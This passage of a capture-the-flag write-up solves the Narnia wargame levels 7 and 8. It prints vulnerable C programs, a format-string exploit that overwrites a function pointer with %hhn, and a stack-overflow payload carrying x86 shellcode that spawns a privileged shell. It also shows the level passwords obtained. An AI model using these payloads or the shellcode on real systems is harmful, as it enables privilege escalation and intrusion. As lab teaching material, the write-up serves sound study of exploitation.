#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
	    fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

Narnia 7 is basically the same as narnia 5. We'll exploit `snprintf` again to
change the value of `ptrf` to the address of `hackedfunction`.

Let's have a quick test to see these addresses.

```bash
$ /narnia/narnia7 test
goodfunction() = 0x80492fa
hackedfunction() = 0x804931f

before : ptrf() = 0x80492fa (0xffffd468)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

We can see that higher two bytes of the addresses of `goodfunction` and
`hackedfunction` are the same, so we can just change the lower two bytes in
`ptrf` from `0x92fa` to `0x931f`.

In order to do so, we can use `%hhn` to write the low 1 byte of `%n` to the
target address.

So the first part of our exploit string should be

```bash
`echo -e '\x68\xd4\xff\xff\x69\xd4\xff\xff'`
```

which specifies the addresses of the lower two bytes of `ptrf`. And now 
`snprintf` will have written 8 bytes, and to get `0x1f` we need an extra
23 bytes, so we can write `%23c`, and `\x68\xd4\xff\xff` will be the second
arg to `snprintf`. Hence we write `%2$hhn`.

```bash
`echo -e '\x68\xd4\xff\xff\x69\xd4\xff\xff23c%2$hhn'`
```

Similarly, we can calculate the number of bytes we need to get `0x93`, and the
result would be

```bash
`echo -e '\x68\xd4\xff\xff\x69\xd4\xff\xff23c%2$hhn%116c%3$hhn'`
```

However, notice that arguments passed to a program will also effect the
positions of stack variables, so we need some minor changes to make it right.

```bash
$ /narnia/narnia7 `echo -e '\x48\xd4\xff\xff\x49\xd4\xff\xff%23c%2$hhn%116c%3$hhn'`
goodfunction() = 0x80492fa
hackedfunction() = 0x804931f

before : ptrf() = 0x80492fa (0xffffd448)
I guess you want to come to the hackedfunction...
Way to go!!!!$ cat /etc/narnia_pass/narnia8
1aBcDgPttG
```



## Narnia 8

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];

	printf("%s\n",bok);
}

int main(int argc, char **argv){

	if(argc > 1)
		func(argv[1]);
	else
	printf("%s argument\n", argv[0]);

	return 0;
}
```

For this program, we can first pass in 20 `A`'s to get the stack address of
`blah`, i.e., `b` or `argv[1]`.

```bash
$ /tmp/noenv /narnia/narnia8 AAAAAAAAAAAAAAAAAAAA | tail -c+21 | hexdump -n 4 -v -e '16/1 "%02x" "\n"'
d3dfffff
```

So `argv[1]` will sit at `0xfffffdfd3`, and if we add one more character,
the address of `argv[1]` will decrease by 1.

Since the template of our exploit string is

```bash
AAAAAAAAAAAAAAAAAAAA + addr(argv[1]) + BBBB + 'addr(argv[1]) + 32' + shellcode(setreuid + sh)
```

And their lengths are listed below

| Description        | Content      | Bytes         |
|:------------------:|:------------:|:-------------:|
| Padding 1          | 'A' * 20     | 20            |
| addr(argv[1])      | `0x--------` | 4             |
| Padding 2          | 'B' * 4      | 4             |
| addr(argv[1]) + 32 | `0x--------` | 4             |
| Shellcode          | `\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80` | 58 |

We can calculate the start address of `argv[1]` by

```python3
>>> hex(0xffffdfd3 - 4 - 4 - 4 - 58)
'0xffffdf8d'
```

and `addr(argv[1]) + 32` will be `0xffffdf8d + 32 = 0xffffdfad`

Therefore, the final exploit string is:

```bash
$ /tmp/noenv /narnia/narnia8 'AAAAAAAAAAAAAAAAAAAA\x8d\xdf\xff\xffBBBB\xad\xdf\xff\xff\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80'
[+] copying argv[0], len=15
[+] copying argv[1], len=90
[+] execute /narnia/narnia8
AAAAAAAAAAAAAAAAAAAA����BBBB����j1X̀��jFX��̀jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                          X̀��k
                                                                              ځ{aH�
$ cat /etc/narnia_pass/narnia9
eRfb1uJaeO
```



And now we have done all available narnia quizzes~ (as of writiing this post)
